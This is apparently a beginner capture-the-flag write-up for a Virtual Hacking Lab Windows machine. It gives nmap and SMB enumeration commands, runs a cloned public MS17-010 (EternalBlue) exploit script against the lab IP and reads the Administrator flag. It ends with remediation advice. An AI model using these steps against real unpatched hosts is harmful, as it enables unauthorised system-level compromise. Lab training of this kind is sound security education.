




# CMS101 - Virtual Hacking Lab

| Info          | Details                               |
| ------------- | ------------------------------------- |
| Platform      | Virtual Hacking Lab                   |
| Difficulty    | Beginner                              |
| Target IP     | 10.11.1.83                            |
| OS            | Windows                               |
| Vulnerability | SMB (Eternal Blues) MS17-010          |
| Tools Used    | Nmap, smbclient, Searchsploit, Python |

## Attack Path
1. Reconnaissance
2. Port Scanning (Nmap)
3. SMB Enumeration
4. Vulnerability Discovery (MS17-010)
5. Exploitation – EternalBlue
6. Remote Command Execution
7. SYSTEM Shell Access
8. Capture Administrator Flag

## Environment Setup

First, create a working directory and files to organize enumeration results.

```bash
mkdir john
cd john
mkdir nmap gobuster exploit
touch users.txt creds.txt
echo 'Testing....1...2...3...' > test.txt
```

# Network Scanning

Identify the target IP and perform a full port scan.

```bash
ip='10.11.1.83'
## Regular Scan + Version
sudo nmap -Pn -n $ip -sC -sV -p- --open -oN nmap/nmap.log
```

Reminder:
1. Check all the version
2. Check all the open ports



No HTTP services were discovered, suggesting that the primary attack surface is likely SMB.

## smb

Since SMB was exposed, further enumeration was conducted.

```bash
smbclient -L 
```


Results: session setup failed

To identify known vulnerabilities associated with the SMB service, the Nmap vulnerability script was executed.

```bash
nmap --script vuln -Pn 10.11.1.83 -p 445
```



The results indicated that the system is vulnerable to:
- **CVE-2008-4250**
- **CVE-2017-0143 (MS17-010 / EternalBlue)**

### Vulnerability Details

**CVE-2017-0143 (MS17-010)**  
A remote code execution vulnerability in the Microsoft SMBv1 protocol that allows attackers to execute arbitrary code on the target system.

This vulnerability was widely exploited by the **EternalBlue exploit**, which was used in major attacks such as **WannaCry ransomware**.

## Exploitation

A publicly available exploit for MS17-010 was used.

```bash
git clone https://github.com/h3x0v3rl0rd/MS17-010.git

cd MS17-010

ls -la

python3 exploit.py $ip
```



The exploit successfully triggered the vulnerability and provided **remote command execution on the target system**.
# Post Exploitation

```cmd.exe
hostname
net user john
```

This revealed information about the user account and system privileges.

The final objective was to retrieve the flag located on the Administrator desktop.

```
type "C:\Documents and Settings\Administrator\Desktop\key.txt"
```



# Security Impact

The **MS17-010 vulnerability allows remote attackers to execute arbitrary code without authentication**. Successful exploitation grants **SYSTEM-level privileges**, enabling an attacker to:

- Execute commands remotely
- Install malware or backdoors
- Move laterally across the network
- Access sensitive data
- Fully compromise the host system

This vulnerability represents a **critical security risk**.

# Remediation

The following steps should be taken to mitigate this vulnerability.

### 1. Apply Microsoft Security Patch

Install the Microsoft patch for **MS17-010** to eliminate the vulnerability.

Microsoft released this update in **March 2017**, and all Windows systems should be fully patched.

### 2. Disable SMBv1

SMBv1 is outdated and insecure.

Disable it using PowerShell:

`Disable-WindowsOptionalFeature -Online -FeatureName SMB1Protocol`

### 3. Restrict SMB Access

SMB services should not be exposed to untrusted networks.

Recommended protections:

- Block **port 445** externally
- Restrict SMB access using **firewall rules**
- Use **VPN access for internal services**

### 4. Network Segmentation

Critical systems should be segmented to prevent lateral movement across the network.

### 5. Enable Security Monitoring

Organizations should deploy monitoring solutions capable of detecting:

- SMB exploitation attempts
- Suspicious remote command execution
- Lateral movement activity